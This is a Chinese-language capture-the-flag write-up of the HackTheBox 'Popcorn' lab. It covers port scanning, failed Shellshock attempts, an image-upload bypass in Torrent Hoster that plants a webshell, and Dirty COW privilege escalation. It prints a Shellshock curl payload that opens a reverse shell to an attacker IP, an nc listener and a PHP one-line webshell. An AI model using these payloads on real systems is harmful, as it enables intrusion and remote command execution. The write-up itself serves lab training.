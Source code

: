 ```yaml
---
title: Popcorn（文件上传）
categories:
- training
tags:
- training
- port 80
- linux
---
```


## scan
```
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
PHP/5.2.10-2ubuntu6.10
```
## web
先检查破壳漏洞，然后检查/test目录泄露的信息
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/1.PNG)
```
获取的信息：
Server Administrator 
webmaster@localhost 

web路径：/etc/apache2
	/var/www/test.php 

服务：/var/run/mysqld/mysqld.sock 

http://10.10.10.6/test/index.php

http://10.10.10.6/torrent/database/
-- Database: `torrenthoster`
```
burp scanner扫描了一遍，发现了几个漏洞，好像不能利用
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/12.PNG)

#### trying1: 低版本openssh

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/2.PNG)

#### trying2: 破壳漏洞检查

[CVE-2014-6271](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)
```
searchsploit shellshock

PHP < 5.6.2 - 'Shellshock' Safe Mode / Disable Functions Bypass / Command Injection                         | exploits/php/webapps/35146.txt
Bash CGI - 'Shellshock' Remote Command Injection (Metasploit)                                               | exploits/cgi/webapps/34895.r
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/3.PNG)
没有任何反应

#### trying3: 破壳漏洞检查2
http://10.10.10.6/test/
```
nc -lnvp 666

curl –H 'x: () { :;}; /bin/bash –i >& /dev/tcp/10.10.14.13/666 0>&1' http://10.10.10.6/test/
```
同样失败

#### trying4: 发现web目录
被漏洞扫描软件给坑了。不管有没有破壳漏洞，先扫描一下目录

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/4.PNG)

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/5.PNG)

exploit db上搜索一下Torrent Hoster。

[Torrent Hoster Remont Upload Exploit](https://www.exploit-db.com/exploits/11746)

 sql注入检测被网站黑名单发现
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/11.PNG)

做信息搜集发现的信息：
```
MySQL db        http://10.10.10.6/torrent/comment
```
#### trying5: 准备上传

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/6.PNG)
先随便上传一个txt，提示说明必须要是torrent文件，但是我们想要上传php类型webshell。

1. 上传torrent文件，burp---send to repeater，得到文件类型等信息。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/7.PNG)

2. 
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/8.PNG)
主面板获得上传的文件的路径。
http://10.10.10.6/torrent/torrents.php?mode=download&id=06aceda1226df400b0506aa813688f45309318a6

3.
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/9.PNG)
尝试替换为php反弹脚本，提示不是有效的torrent文件。

4. 

查看msfvenom能否生成torrent类型的载荷。

`msfvenom -l formats | grep torrent`

5.尝试在上传torrent时，同时上传一句话木马。
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/10.PNG)
生成了1.PNG.torrent

<?php @system($_POST["cmd"])?>

6.尝试在修改screenshot，上传反弹木马
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/13.PNG)
先注册账号，然后登陆。

随便上传一个torrent，然后点击edit the torrent。

![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/14.PNG)

替换图片内容为php-reverse-shell，名称后缀改为6.png.php

nc监听本地地址。

访问上传的路径：
![15](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/15.PNG)

上传php反弹webshell失败，权限不够。

7. 和上一步差不多，上传一句话，而不是php反弹脚本
![16](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/16.PNG)

![17](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/17.PNG)

## 提权
`uname -a`

发现linux内核为2.6.x，于是dirty cow提权。
![19](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/19.PNG)

值得一提的是
```
./a.out

Please enter the new password: a
```

然后就卡了有将近一分钟吧，还以为提权执行失败了（，，）下回要耐心等待。

## 总结：

以后遇到这种情况，测试方法

- 某cms，先查找以往漏洞。
- 确定输入点，挨个测试一遍。（当时一直在测torrent上传，没想到漏洞在更改图片那里）
- 上传漏洞需要找到上传的文件的路径。
一般要结合**路径遍历漏洞**。例如在这个cms，如果像下图一样，只是说明上传成功了，但是没有给出上传的地址（一般来说也没有必要）。

![18](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/18.PNG)

